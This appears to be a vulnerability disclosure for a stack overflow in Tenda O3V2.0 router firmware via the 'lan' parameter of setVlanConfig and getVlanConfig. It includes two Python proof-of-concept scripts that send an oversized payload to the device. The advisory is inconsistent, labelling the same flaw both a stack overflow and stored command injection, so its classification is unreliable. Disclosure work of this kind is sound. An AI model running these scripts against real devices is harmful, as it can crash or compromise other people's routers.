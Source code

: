 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lan` POST parameter accepted by `/goform/setVlanConfig` is written to the configuration key `lan.1.vlanid` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getVlanConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.1.vlanid`.

## Technical details

- The `setVlanConfig` endpoint accepts a POST parameter `lan` and calls `SetValue("lan.1.vlanid", v7)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115558.png)

- The `getVlanConfig` endpoint reads `lan` via `get_mib_2cJSONString(Object, (int)"lan", (int)"lan.1.vlanid", v6)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115845.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_120022.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.1.vlanid` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setVlanConfig"
payload =  b"a"*1000

data = {"lan":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getVlanConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)